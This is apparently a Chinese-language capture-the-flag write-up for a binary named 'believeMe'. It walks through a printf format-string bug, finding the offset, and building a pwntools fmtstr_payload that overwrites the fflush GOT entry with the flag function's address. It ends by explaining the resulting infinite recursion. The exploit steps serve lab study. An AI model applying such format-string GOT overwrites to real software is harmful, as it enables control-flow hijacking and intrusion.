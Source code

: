 ```c
.text:080487CC ; 10:   printf(s);
.text:080487CC                 sub     esp, 0Ch
.text:080487CF                 lea     eax, [ebp+s]
.text:080487D2                 push    eax             ; format
.text:080487D3                 call    _printf
```

这里我本来以为只是简单的利用格式化字符串去修改fflush_got所以我先测出来fmt的偏移量为9

```bash
➜  believeMe ./believeMe
Someone told me that pwning makes noxāle...
But......... how ????
aaaa%9$x
aaaa61616161%                                                         
➜  believeMe
```

然后构造payload=fmtstr_payload(9,{fflush_got:noxflag_addr})想直接getflag，然后实际上没那么简单。调试过后发现fmtstr_payload不全，len(payload)输出检查后发现长度超了，稍微查了下pwntools文档的fmtstr部分，发现它默认是以hhn也就是单字节的形式去构造payload，如果以双字节或四字节的形式要加上write_size参数，这样payload的长度就不会超过40
```python
payload = fmtstr_payload(9,{fflush_got:noxFlag_addr},write_size='short')
```

然而当我们成功修改fflush_got为noxFlag的地址时会进入到一个死循环中，我们看一下noxFlag函数里面不难发现问题

```c
void __noreturn noxFlag()
{
  char i; // [esp+Bh] [ebp-Dh]
  FILE *stream; // [esp+Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  puts(s);
  fflush(stdout);//这里又调用了fflush函数，由于我们把fflush_got改成了noxFlag地址，这里相当递归调用noxFlag，形成死循环
  if ( stream )
  {
    for ( i = fgetc(stream); i != -1; i = fgetc(stream) )
    {
      putchar(i);
      fflush(stdout);
    }
    fflush(stdout);
    fclose(stream);
  }
  else
  {
    puts("Can't read file \n");
    fflush(stdout);
  }
  exit(0);
}
```
